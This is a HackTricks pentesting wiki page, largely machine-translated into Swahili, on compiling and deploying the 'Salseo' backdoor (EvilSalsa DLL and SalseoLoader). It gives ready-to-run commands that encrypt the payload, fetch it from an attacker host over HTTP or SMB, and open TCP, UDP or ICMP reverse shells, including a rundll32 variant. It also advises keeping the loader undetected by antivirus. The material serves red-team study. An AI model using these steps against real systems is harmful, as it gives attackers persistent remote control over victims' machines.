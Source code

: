 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compiling the binaries

Pakua msimbo wa chanzo kutoka github na uunde **EvilSalsa** na **SalseoLoader**. Utahitaji **Visual Studio** iliyosakinishwa ili kuunda msimbo huo.

Uunde miradi hiyo kwa ajili ya usanifu wa sanduku la windows ambapo unakusudia kuitumia (Ikiwa Windows inasaidia x64 uunde kwa usanifu huo).

Unaweza **kuchagua usanifu** ndani ya Visual Studio katika **"Build" Tab** ya **kushoto "Platform Target".**

(\*\*Ikiwa huwezi kupata chaguo hili bonyeza kwenye **"Project Tab"** kisha kwenye **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Kisha, jenga miradi yote miwili (Build -> Build Solution) (Ndani ya log zitajitokeza njia ya executable):

![](<../.gitbook/assets/image (381).png>)

## Prepare the Backdoor

Kwanza kabisa, utahitaji kuandika **EvilSalsa.dll.** Ili kufanya hivyo, unaweza kutumia script ya python **encrypterassembly.py** au unaweza kuunda mradi **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, sasa una kila kitu unachohitaji kutekeleza mambo yote ya Salseo: **encoded EvilDalsa.dll** na **binary ya SalseoLoader.**

**Pakia binary ya SalseoLoader.exe kwenye mashine. Hazipaswi kugundulika na AV yoyote...**

## **Tekeleza backdoor**

### **Kupata TCP reverse shell (kupakua dll iliyosimbwa kupitia HTTP)**

Kumbuka kuanzisha nc kama msikilizaji wa reverse shell na seva ya HTTP kutoa evilsalsa iliyosimbwa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Kupata shell ya UDP reverse (kushusha dll iliyokodiwa kupitia SMB)**

Kumbuka kuanzisha nc kama msikilizaji wa shell ya reverse, na seva ya SMB kutoa evilsalsa iliyokodiwa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Kupata ICMP reverse shell (dll iliyosimbwa tayari ndani ya mwathiriwa)**

**Wakati huu unahitaji chombo maalum kwenye mteja kupokea reverse shell. Pakua:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Zima Majibu ya ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Tekeleza mteja:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Ndani ya mwathiriwa, hebu tuendeshe kitu cha salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kuunda SalseoLoader kama DLL inayosafirisha kazi kuu

Fungua mradi wa SalseoLoader ukitumia Visual Studio.

### Ongeza kabla ya kazi kuu: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Sakinisha DllExport kwa mradi huu

#### **Zana** --> **Meneja wa Kifurushi cha NuGet** --> **Simamisha Kifurushi cha NuGet kwa Suluhisho...**

![](<../.gitbook/assets/image (881).png>)

#### **Tafuta kifurushi cha DllExport (ukitumia kichupo cha Browse), na bonyeza Sakinisha (na kubali popup)**

![](<../.gitbook/assets/image (100).png>)

Katika folda yako ya mradi, faili zifuatazo zimeonekana: **DllExport.bat** na **DllExport\_Configure.bat**

### **U**ondoe DllExport

Bonyeza **Ondoa** (ndiyo, ni ajabu lakini ni muhimu)

![](<../.gitbook/assets/image (97).png>)

### **Toka Visual Studio na tekeleza DllExport\_configure**

Tu **toka** Visual Studio

Kisha, nenda kwenye **folda ya SalseoLoader** yako na **tekeleza DllExport\_Configure.bat**

Chagua **x64** (ikiwa unakusudia kuitumia ndani ya sanduku la x64, hiyo ilikuwa hali yangu), chagua **System.Runtime.InteropServices** (ndani ya **Namespace kwa DllExport**) na bonyeza **Tumia**

![](<../.gitbook/assets/image (882).png>)

### **Fungua mradi tena na Visual Studio**

**\[DllExport]** haipaswi kuwa na alama ya kosa tena

![](<../.gitbook/assets/image (670).png>)

### Jenga suluhisho

Chagua **Aina ya Matokeo = Maktaba ya Darasa** (Mradi --> SalseoLoader Mali --> Programu --> Aina ya matokeo = Maktaba ya Darasa)

![](<../.gitbook/assets/image (847).png>)

Chagua **jukwaa la x64** (Mradi --> SalseoLoader Mali --> Jenga --> Lengo la jukwaa = x64)

![](<../.gitbook/assets/image (285).png>)

Ili **kujenga** suluhisho: Jenga --> Jenga Suluhisho (Ndani ya console ya Matokeo, njia ya DLL mpya itaonekana)

### Jaribu Dll iliyozalishwa

Nakili na ubandike Dll mahali unapotaka kuijaribu.

Tekeleza:
```
rundll32.exe SalseoLoader.dll,main
```
Ikiwa hakuna kosa linalojitokeza, huenda una DLL inayofanya kazi!!

## Pata shell ukitumia DLL

Usisahau kutumia **HTTP** **server** na kuweka **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
